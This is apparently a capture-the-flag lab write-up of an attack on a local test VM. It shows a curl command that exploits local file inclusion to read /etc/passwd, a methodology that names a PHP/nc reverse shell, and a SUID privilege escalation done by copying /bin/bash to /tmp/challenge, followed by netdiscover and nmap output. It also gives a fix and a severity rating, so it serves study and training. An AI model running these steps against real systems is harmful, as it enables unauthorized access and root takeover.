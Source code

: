 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```
```sudo /home/victor/undefeated_victor```

**Privilege Escalation Vulnerability Explained:** SUID binary in victor's folder executes a file /tmp/challenge. The file is not present in the /tmp folder and could be switched to another binary such as /bin/bash to be executed with administrative privileges.

**Vulnerability fix**: Unless administartive privileges are legitimately required, SUID should not be used. Administrators should always check if the parameters present in SUID could be abused, especially code execution parameters.

**Severity**: **High**

Methodology
-----------

*	Host Discovery (netdiscover)
*	Port Scanning (nmap)
*	Web Ports Enumeration (nikto, gobuster, browser, wfuzz)
*	Discovered Local File Inclusion Vulnerability (browser)
*	Further Web Port Enumeration (browser, gobuster,wfuzz, curl)
*	Discovered Remote Command Execution Vulnerability (browser - WordPress)
*	Low Privilege Shell Gained (php reverse shell/nc)
*	Privilege Escalation Enumeration (sudo -l)
*	Discovered Back Up Password (bash ls)
*	Decoded Password (echo, openssl, base64)
*	Privilege Escalation Enumeration (sudo -l)
*	Exploited binary with SUID bit by impersonating the file (cp /bin/bash /tmp/challenge)

Host Discovery (Netdiscover)
----------------------------

Host discovery.
```bash
root@kali:~# netdiscover -r 192.168.20.0/24
3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.20.1    00:50:56:c0:00:01      1      60  VMware, Inc.                
 192.168.20.149  00:0c:29:2c:25:11      1      60  VMware, Inc.                
 192.168.20.254  00:50:56:e2:32:bb      1      60  VMware, Inc.   
Nmap
Nmap all ports scan:
root@kali:~# nmap -p- 192.168.20.149
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-09 10:40 EDT
Nmap scan report for 192.168.20.149
Host is up (0.00014s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:2C:25:11 (VMware)

```
